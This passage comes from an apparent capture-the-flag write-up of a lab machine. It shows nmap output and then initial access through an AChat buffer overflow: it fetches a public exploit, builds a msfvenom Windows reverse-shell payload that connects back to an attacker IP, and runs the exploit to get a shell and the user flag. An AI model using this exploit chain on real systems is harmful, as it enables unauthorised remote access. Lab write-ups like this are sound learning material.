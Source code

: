 ```
|_  System time: 2022-04-02T12:51:52-04:00

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   23.16 ms 10.10.14.1
2   23.35 ms 10.10.10.74

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.78 seconds

```

## Initial access

### AChat

- With some research on this program it seems to be a buffer overflow, there's an exploit made for it [here](https://www.exploit-db.com/raw/36025)
- Let's get the exploit on our machine `wget https://www.exploit-db.com/raw/36025`
- We just need to change the payload and do this instead because we want to get a reverse shell (not launch calc as the exploit payload is doing): 
```
msfvenom -a x86 --platform Windows -p 'windows/shell_reverse_tcp' LHOST=10.10.14.4 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
- Now we can replace the buffer in the exploit script with our buffer, we also need to change the server adress with the ip of the target `10.10.10.74`
- We launch the python script (wont work with python3 we need to use python2)  
![image](https://user-images.githubusercontent.com/96747355/161382880-61c2adae-906c-42fb-bb15-1d26aa0a7361.png)

- We get a shell
![image](https://user-images.githubusercontent.com/96747355/161382182-e8c773da-e2de-41a9-9655-b1d05d7089e2.png)  
```
whoami
chatterbox\alfred
```

- Let's get the user flag
```
cd C:\Users\Alfred\Desktop
type user.txt
```

## Post Attack Enumeration
